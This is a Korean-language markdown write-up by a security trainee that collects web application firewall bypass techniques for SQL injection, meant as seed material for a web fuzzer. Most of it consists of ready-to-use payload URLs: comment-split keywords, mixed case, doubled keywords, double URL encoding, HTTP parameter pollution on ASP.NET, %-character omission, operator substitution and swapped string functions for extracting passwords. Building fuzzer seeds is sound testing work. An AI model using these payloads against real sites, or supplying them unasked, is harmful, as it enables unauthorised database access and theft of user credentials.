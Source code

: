 # Web Fuzzer WAF 우회 기법 분석

**작성자: BoB 보안제품개발 9기 한승훈**

본 문서는 Web Fuzzer 제작시 시드파일에서 활용가능한 WAF우회기법들을 정리한 문서임.

해당 문서를 기반으로 WAF를 우회하기 위한 다양한 시드파일 제작이 필요함.



## 일반 우회 & 공격기법

일반적으로 대부분의 서버 및 WAF 환경에서 사용 가능한 공격 우회 기법에 대해 기술하였다.



### 1. 주석 처리 기법

: 중간 공격 키워드 가운데 주석을 삼입함으로써 WAF우회

```
http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3.....

http://victim.com/news.php?id=1+/*!union*/ /*!select*/ 1,2,3,4….
```



### 2. 대소문자 교체 기법

: 방화벽 필터설정이 다음과 같을 때 /union\select/g 공격 키워드의 대소문자를 변경하여 WAF우회

```
http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3...
```



### 3. 키워드 대체 기법

: 웹방화벽의 ``union``, ``select`` 차단을 역이용하여 공격 키워드 WAF우회

```
http://victim.com/news.php?id=1+UNunionION+SEselectLECT+1,2,3--
```



### 4. 문자 인코딩 기법

: 공격 키워드가 포함된 명령을 인코딩 후 WAF이후에 디코딩하여 WAF우회

```
http://victim.com/news.php id=1%252f%252a*/union%252f%252a/select%252f%252a*/1,2,3%252f%252a*/from%252f%252a*/users--
http://victim.com/news.php?id=1/**/union/*/select/**/1,2,3/**/from/**/users--
```



### 5. BOF 공격 기법

: 서버의 BOF 유도를 통해 서비스를 공격

```
http://victim.com/news.php?id=1+and+(select 1)=(select 0x414141414141441414141414114141414141414141414141414141414141414141.)+union+select+1,2,version(),database(),user(),6,7,8,9,10--
```



## 고급 우회 & 공격 기법

특정 서버 및 WAF 환경에서 사용가능한 복잡한 공격기법에 대해 서술하였다.



### 1. HTTP 파라미터 분할 및 병합 우회 기법

: 특정 웹서버에서 HTTP 파라미터를 처리하는 방식을 악용에 WAF를 우회하는 방법

| Web Server 종류 |      Parameter 해석기법      |      예시      |
| :-------------: | :--------------------------: | :------------: |
|   ASP.NET/IIS   |    Concatenation by comma    | par1=val1,val2 |
|     ASP/IIS     |    Concatenation by comma    | par1=val1,val2 |
|   PHP/Apache    | The last param is resulting  |   Par1=val2    |
|   JSP/Tomcat    | The first param is resulting |   par1=val1    |
|   Perl/Apache   | The first param is resulting |   par1=val1    |



#### Example) ASP / ASP.NET's 환경에서의 공격 예시

```
http://www.example.com/search.aspx?q=select name&q=password from users 
```

* SQL Injection 공격 시도를 다음과 같이 파라메터 q에 분할하여 전송

* ASP/ASP.NET's 에서는 파라메터 q를 합쳐서 q= select name,password from users 로 인식하게 됨.



### 2. 문자 생략 기법

: 특정 웹서버에서 HTTP 파라미터를 생략하는 로직을 악용에 WAF를 우회하는 방법

* character “%“는 ASP/ASP.NET에서 생략되어 인식됩니다.

* 아래와 같이 정형화된 SQL문을 시도할 경우 방화벽에서 탐지가 되는데, SQL문 중간에 “%” 삽입을 통해 우회가 가능합니다.

```
http://victim.com/news.asp?id=10 a%nd 1=0/(se%lect top 1 ta%ble_name fr%om info%rmation_schema.tables)
```



### 3. 필터링 키워드 우회기법

: 특정 웹서버의 필터링 정책의 허점을 활용



#### 3.1 and, or 키워드 우회

* 다음과 같은 SQL 공격 시도시 and, or 을 ||, && 로 대체하여 우회 성공 가능성 높음.

```
Filtered injection: “1 or 1 = 1”, “1 and 1 = 1”
Bypassed injection:  “1 || 1 = 1” “1 && 1 = 1”
```

* 또한 union의 경우도 다음과 같은 우회 방법이 존재함.

```
Filtered injection:	union select user, password from users
Bypassed injection: 1 || (select user from users where user_id = 1) = 'admin'
```



#### 3.2 함수 키워드 우회

SQL Injection 공격에 자주 사용되는 함수를 사용할 경우 WAF에서 쉽게 필터링 함.

이 경우, 자주 사용되는 함수를 비슷한 함수로 변경하여 우회가 가능.

- substring() → mid(), substr(), etc
- ascii() → hex(), bin(), etc
- benchmark() → sleep()

```
Ex)Know:
substring((select 'password'),1,1) = 0x70
substr((select 'password'),1,1) = 0x70 
mid((select 'password'),1,1) = 0x70

New:
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
```



